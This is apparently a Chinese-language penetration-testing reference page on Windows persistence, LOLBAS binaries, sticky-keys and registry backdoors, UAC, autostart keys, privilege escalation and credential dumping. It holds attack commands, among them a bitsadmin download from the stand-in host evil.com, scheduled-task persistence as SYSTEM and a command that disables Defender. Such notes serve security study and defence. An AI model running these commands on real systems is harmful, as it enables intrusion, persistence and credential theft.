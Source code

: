 持久化 - Windows
========================================

隐藏文件
----------------------------------------
- 创建系统隐藏文件
    - ``attrib +s +a +r +h filename`` / ``attrib +s +h filename``
- 利用NTFS ADS (Alternate　Data　Streams) 创建隐藏文件
- 利用Windows保留字
    - ``aux|prn|con|nul|com1|com2|com3|com4|com5|com6|com7|com8|com9|lpt1|lpt2|lpt3|lpt4|lpt5|lpt6|lpt7|lpt8|lpt9``

LOLBAS
----------------------------------------

简介
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
LOLBAS，全称Living Off The Land Binaries and Scripts (and also Libraries)，是一种白利用方式，是在2013年DerbyCon由Christopher Campbell和Matt Graeber发现，最终Philip Goh提出的概念。

这些程序一般有有Microsoft或第三方认证机构的签名，但是除了可以完成正常的功能，也能够被用于内网渗透中。这些程序可能会被用于：下载安全恶意程序、执行恶意代码、绕过UAC、绕过程序控制等。

常见程序
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- bitsadmin.exe
    - 下载文件 ``bitsadmin /transfer <job_name> /priority <priority> <remote_path> <local_path>``
    - 下载文件 ``bitsadmin /create 1 bitsadmin /addfile 1 https://evil.com/autoruns.exe c:\data\playfolder\autoruns.exe bitsadmin /RESUME 1 bitsadmin /complete 1``
    - 复制文件 ``bitsadmin /create 1 & bitsadmin /addfile 1 c:\windows\system32\cmd.exe c:\data\playfolder\cmd.exe & bitsadmin /RESUME 1 & bitsadmin /Complete 1 & bitsadmin /reset``
    - 代码执行 ``bitsadmin /create 1 & bitsadmin /addfile 1 c:\windows\system32\cmd.exe c:\data\playfolder\cmd.exe & bitsadmin /SetNotifyCmdLine 1 c:\data\playfolder\cmd.exe NULL & bitsadmin /RESUME 1 & bitsadmin /Reset``
- cdb.exe
- certutil.exe
    - 可安装、备份、删除、管理和执行证书
    - 证书存储相关功能
- cmd.exe
- cmstp.exe
- csc.exe
- cscript.exe
    - 执行脚本
- Extexport.exe
- expand.exe
    - 展开一个或多个压缩文件
- mofcomp.exe
- msbuild.exe
    - 构建应用程序
- mshta.exe
    - HTML应用
- netsh.exe
- installutil.exe
    - 安装/卸载程序组件
- powershell.exe
- psexec.exe
- reg.exe
    - 注册表控制台
- regedit.exe
    - 注册表修改
- regsvr32.exe
    - 注册动态链接库/ActiveX控件
- rundll32.exe
    - 执行DLL文件中的内部函数
- sc.exe
    - 查看服务状态管理
- schtasks.exe
    - 定时计划任务
- shred
    - 重复写入文件，防止文件恢复
- type.exe
    - 利用ads隐藏文件 ``type <filepath> <target_file:ads>``
- wmic.exe
    - Windows管理工具
- windbg.exe
- wscript.exe
    - 脚本引擎
- waitfor.exe
    - 用于同步网络中计算机，可以发送或等待系统上的信号。

后门
----------------------------------------

sethc
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
``sethc.exe`` 是 Windows系统在用户按下五次shift后调用的粘滞键处理程序，当有写文件但是没有执行权限时，可以通过替换 ``sethc.exe`` 的方式留下后门，在密码输入页面输入五次shift即可获得权限。

映像劫持
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
在高版本的Windows中，替换程序是受到系统保护的，需要使用其他的技巧来实现替换。

具体操作为在注册表的 ``HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Option`` 下添加项 ``sethc.exe`` ，然后在 ``sethc.exe`` 这个项中添加 ``debugger`` 键，键值为恶意程序的路径。

定时任务
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Windows下有 ``schtasks`` 和 ``at`` 两种计划任务机制。 其中 ``at`` 在较高版本的Windows中已经弃用。

设置命令为 ``schtasks /create /tn "TEST_OnLogon" /sc onlogon /tr "cmd.exe /c calc.exe"`` 、 ``schtasks /create /tn "TEST_OnStartup" /sc onstart /ru system /tr "cmd.exe /c calc.exe"`` 。删除命令为 ``schtasks /delete /tn "TEST_OnLogon" /f`` 。

登录脚本
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Windows可以在用户登录前执行脚本，使用 ``HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit`` 设置。

也可在 ``HKCU\Environment\`` 路径下设置 ``UserInitMprLogonScript`` 来实现。

屏幕保护程序
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Windows可以自定义屏幕保护程序，使用 ``HKEY_CURRENT_USER\Control Panel\Desktop`` 设置。

隐藏用户
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Windows可以使用在用户名后加入 ``$`` 来创建隐藏用户，这种帐户可在一定条件下隐藏，但是仍可以通过控制面板查看。

在创建隐藏用户的基础上，可以修改注册表的方式创建影子用户，这种方式创建的用户只能通过注册表查看。

CLR
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
CLR (Common Language Runtime Compilation) 公共语言运行时，是微软为.NET产品构建的运行环境，可以粗略地理解为.NET虚拟机。

.NET程序的运行离不开CLR，因此可以通过劫持CLR的方式实现后门。

Winlogon Helper DLL后门
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Winlogon是一个Windows组件，用来处理各种活动，如登录、注销、身份验证期间加载用户配置文件、关闭、锁定屏幕等。这种行为由注册表管理，该注册表定义在Windows登录期间启动哪些进程。所以可以依靠这个注册表来进行权限维持。

注册表位置如下：

- ``HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell`` 用于执行exe程序
- ``HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit`` 用于执行exe程序
- ``HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify`` 用于执行dll文件

UAC
----------------------------------------

简介
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
UAC (User Account Control) 是Windows Vista 和 Windows Server 2008 引入的一个安全机制，当一些敏感操作发生时，会跳出提示显式要求系统权限。

当用户登陆Windows时，每个用户都会被授予一个access token，这个token中有security identifier (SID) 的信息，决定了用户的权限。

会触发UAC的操作
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 以管理员权限启动应用
- 修改系统、UAC设置
- 修改没有权限的文件或者目录（ %SystemRoot% / %ProgramFiles% 等 ） 
- 修改ACL (access control list)
- 安装驱动
- 增删账户，修改账户类型，激活来宾账户

ByPass
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- DLL相关
- 进程注入
- 注册表

自启动
----------------------------------------
通过在注册表中写入相应的键值可以实现程序的开机自启动，主要是 ``Run`` 和 ``RunOnce`` ，其中RunOnce和Run区别在于RunOnce的键值只作用一次，执行完毕后会自动删除。

注册表如下：

- ``HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run``
- ``HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce``
- ``HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run``
- ``HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce``
- ``HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnceEx``

基于策略的自启动注册表设置如下：

- ``HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run``
- ``HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run``

设置启动文件夹注册表位置如下：

- ``HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders``
- ``HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders``
- ``HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders``
- ``HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders``

设置服务启动项注册表位置如下：

- ``HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce``
- ``HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce``
- ``HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices``
- ``HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices``

用户自启动位置 ``HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit`` 、 ``HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell`` 。

权限提升
----------------------------------------
权限提升有多重方式，有利用二进制漏洞、逻辑漏洞等技巧。利用二进制漏洞获取权限的方式是利用运行在内核态中的漏洞来执行代码。比如内核、驱动中的UAF或者其他类似的漏洞，以获得较高的权限。

逻辑漏洞主要是利用系统的一些逻辑存在问题的机制，比如有些文件夹用户可以写入，但是会以管理员权限启动。

任意写文件利用
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
在Windows中用户可以写的敏感位置主要有以下这些

+ 用户自身的文件和目录，包括 ``AppData`` ``Temp``
+ ``C:\`` ，默认情况下用户可以写入
+ ``C:\ProgramData`` 的子目录，默认情况下用户可以创建文件夹、写入文件
+ ``C:\Windows\Temp`` 的子目录，默认情况下用户可以创建文件夹、写入文件

具体的ACL信息可用AccessChk, 或者PowerShell的 ``Get-Acl`` 命令查看。

可以利用对这些文件夹及其子目录的写权限，写入一些可能会被加载的dll，利用dll的加载执行来获取权限。

MOF
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
MOF是Windows系统的一个文件（ ``c:/windows/system32/wbem/mof/nullevt.mof`` ）叫做"托管对象格式"，其作用是每隔五秒就会去监控进程创建和死亡。

当拥有文件上传的权限但是没有Shell时，可以上传定制的mof文件至相应的位置，一定时间后这个mof就会被执行。

一般会采用在mof中加入一段添加管理员用户的命令的vbs脚本，当执行后就拥有了新的管理员账户。

凭证窃取
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Windows本地密码散列导出工具
    - mimikatz
    - lsass
    - wce
    - gsecdump
    - copypwd
    - Pwdump
    - ProcDump
        - https://docs.microsoft.com/en-us/sysinternals/downloads/procdump
- Windows本地密码破解工具
    - L0phtCrack
    - SAMInside
    - Ophcrack
- 彩虹表破解
- 本机hash+明文抓取
- win8+win2012明文抓取
- ntds.dit的导出+QuarkPwDump读取分析
- vssown.vbs + libesedb + NtdsXtract
- ntdsdump
- 利用powershell(DSInternals)分析hash
- 使用 ``net use \\%computername% /u:%username%`` 重置密码尝试次数
- 限制读取时，可crash操作系统后，在蓝屏的dump文件中读取

其他
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 组策略首选项漏洞
- DLL劫持
- 替换系统工具，实现后门
- 关闭defender
    - ``Set-MpPreference -disablerealtimeMonitoring $true``

